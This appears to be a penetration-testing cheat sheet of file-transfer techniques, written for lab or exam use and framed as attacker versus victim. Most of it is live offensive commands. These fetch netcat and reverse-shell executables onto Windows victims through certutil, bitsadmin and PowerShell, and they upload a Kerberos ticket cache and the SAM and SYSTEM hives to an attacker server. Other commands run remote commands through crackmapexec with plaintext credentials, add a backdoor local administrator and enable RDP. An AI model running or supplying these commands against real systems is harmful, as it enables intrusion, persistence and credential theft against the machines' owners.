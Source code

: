 # Transfer Files

<details>

<summary>Linux</summary>

```bash
python -m SimpleHTTPServer 53
```

```bash
python3 -m http.server 8023
```

```bash
wget -O <filename> <website_name>
```

```bash
curl -o <filename> <website_name>
```

```bash
axel -a -n 20 -o <filename> <website_name>
```

</details>

<details>

<summary>Windows</summary>

```shell
curl.exe http://10.11.67.208:8000/output.dll --output output.dll
```

```bash
powershell.exe iwr -uri 10.10.105.147/nc.exe -o c:\temp\nc.exe
```

```sh
powershell -c cd C:\windows\temp; wget http://10.10.14.68/nc64.exe -outfile nc64.exe
```

```powershell
(new-object net.webclient).downloadfile('http://10.10.14.2/nc.exe', 'c:\temp\nc.exe')
```

```
bitsadmin /Transfer myJob http://192.168.61.128/README.md c:\Users\testing\README.md
```

```bash
certutil.exe -urlcache -f http://10.10.14.68/nc.exe C:\Windows\Temp\nc.exe
```

</details>

<details>

<summary>Upload files to HTTP Server</summary>

[https://raw.githubusercontent.com/Tallguy297/SimpleHTTPServerWithUpload/master/SimpleHTTPServerWithUpload.py](https://raw.githubusercontent.com/Tallguy297/SimpleHTTPServerWithUpload/master/SimpleHTTPServerWithUpload.py)

Attacker's upload server:

```bash
python3 SimpleHTTPServerWithUpload.py 80
```

#### GUI to upload file:

* Go to `<Attacker's IP>`

![](<../.gitbook/assets/image (121).png>)

#### Windows victim uploading file using PS:

```powershell
(New-Object System.Net.WebClient).UploadFile('http://192.168.45.5/', 'c:\temp\20230425015352_BloodHound.zip')
```

#### Windows victim uploading file using CMD:

* double backslashes are impt!!
* Windows 10 and Server 2019 has curl.exe built-in at `c:\windows\system32\curl.exe`

```bash
powershell -c curl.exe -F 'file=@C:\\temp\\supersecret.txt' http://172.16.1.30
```

#### Linux victim uploading file:

```bash
curl -F 'file=@<FILENAME>' http://<ATTACKER-IP>/
```

```
requests.post(<path-on-server-side>, files={'file': open(output_file, 'rb')})
```

</details>

<details>

<summary>SMB</summary>

On attacker:

```bash
sudo python3 /usr/local/bin/smbserver.py share . -smb2support
```

* may not need to use `-smb2support` switch for older versions of Windows

On victim:

```shell
copy \\10.10.14.68\share\reverse.exe .
```

OR...

```bash
net use \\10.10.14.68\share /u:d d
cd \\10.10.14.15\share
.\winpeas.bat
```

</details>

<details>

<summary>FTP</summary>

```bash
python2.7 -m pyftpdlib -p 21 --write
```

### Non-Interactive File Transfer

* Have to craft the txt file on the victim as Linux and Win uses diff encoding for txt files.

#### CMD:

```bash
echo open 172.16.1.30 > ftp.txt
echo USER anonymous >> ftp.txt
echo PASS anonymous >> ftp.txt
echo binary >> ftp.txt
echo PUT nc.exe >> ftp.txt
echo bye >> ftp.txt

ftp.exe -v -n -s:ftp.txt
```

#### PS:

* Doesn't like the `>` or `<` characters

```bash
echo "open 172.16.1.30" | Out-File .\ftp.txt -encoding ascii
echo "USER anonymous" | Out-File .\ftp.txt -encoding ascii -append
echo "PASS anonymous" | Out-File .\ftp.txt -encoding ascii -append
echo "binary" | Out-File .\ftp.txt -encoding ascii -append
echo "PUT nc.exe" | Out-File .\ftp.txt -encoding ascii -append
echo "bye" | Out-File .\ftp.txt -encoding ascii -append

ftp.exe -v -n -s:ftp.txt
```

</details>

<details>

<summary>SCP</summary>

From attacker to victim, run command on attacker:

```bash
scp -P 2222 printname.sh student@192.168.161.52:/tmp
```

From victim to attacker, run command on attacker:

```bash
scp root@linuxvictim:/tmp/krb5cc_607000500_ZX6A9Z .
```

```bash
scp -P 2222 -o "UserKnownHostsFile=/dev/null" student@192.168.145.52:/home/student/navigating-code.exe /tmp/navigating-code.exe
```

</details>

<details>

<summary>Netcat</summary>

On Victim:

```bash
nc -nlvp 4444 > wget.exe
```

On Attacker:

```bash
nc -nv 10.11.0.22 4444 < /home/kali/Downloads/wget.exe
```

</details>

<details>

<summary>Python3 uploadserver library</summary>

On Attacker:

```python
python3 -m uploadserver 80
```

Can install using `python3 -m pip install --user uploadserver`

On Victim:

```bash
curl -X POST http://192.168.45.201:80/upload -F 'files=@/usr/bin/sg'
```

</details>

<details>

<summary>Socat</summary>

Transferring files from attacker to victim

On Attacker:

```bash
socat TCP4-LISTEN:80,fork file:rev.php       
```

On Victim:

```bash
socat TCP4:192.168.45.213:80 file:rev.php,create
```

</details>

<details>

<summary>Transfer files to unreachable hosts</summary>

* Able to reach MS01 but not MS02 despite chisel in place
* MS02 able to reach MS01 via internal IP

#### Use existing HTTP server on MS01 to transfer files

```bash
ftp <ms01's external IP>
# ftp> cd wwwroot
# ftp> bin
# ftp> put reverse.exe
# local: reverse.exe remote: reverse.exe
# 229 Entering Extended Passive Mode (|||50472|)
# 125 Data connection already open; Transfer starting.
# 100% |**********************************************************************|  7168       23.57 MiB/s    00:00 ETA
# 226 Transfer complete.
# 7168 bytes sent in 00:00 (38.06 KiB/s)

# Use Curl to download the reverse shell from MS01 web server.
proxychains -q crackmapexec mssql 10.10.105.148 -u sql_svc -p Dolphin1 -x "curl http://<ms01 Internal IP>:8000/reverse.exe --output c:\temp\reverse.exe"

```

### OR&#x20;

#### Setup Rejetto HFS server (HTTP file server)

```bash
wget https://github.com/rejetto/hfs/releases/download/v0.45.0/hfs-windows.zip
```

#### Create new local admin named bill & Enable RDP on MS01

```bash
c:\temp> net user bill P@ssw0rd /add
c:\temp> net localgroup administrators bill /add
c:\temp> reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

#### Run the HFS server

* Use GUI to unzip --> Double-click hfs executable to serve HTTP server
* Go to [http://localhost/\~/admin/#/](http://localhost/~/admin/#/) --> hamburger icon --> shared files --> add files in virtual file system --> save

#### Download files from MS01 HFS server to MS02

```bash
proxychains -q crackmapexec mssql 10.10.105.148 -u sql_svc -p Dolphin1 -x "powershell.exe iwr -uri 10.10.105.147/nc.exe -o c:\temp\nc.exe"
```

#### Upload files from MS02 to MS01

* Inside HFS admin console ([http://localhost/\~/admin/#/fs](http://localhost/~/admin/#/fs))
  * Select "Shared Files" --> Select "Home" --> "Source on disk" put as a local directory
  * Select "Who can upload" as anyone

```bash
proxychains -q crackmapexec mssql 10.10.105.148 -u sql_svc -p Dolphin1 -X "curl.exe -F 'file=@c:\windows.old\windows\system32\SAM' http://10.10.105.147"
proxychains -q crackmapexec mssql 10.10.105.148 -u sql_svc -p Dolphin1 -X "curl.exe -F 'file=@c:\windows.old\windows\system32\SYSTEM' http://10.10.105.147"
```

* Note it's capital X, meaning that it's a Powershell command

</details>
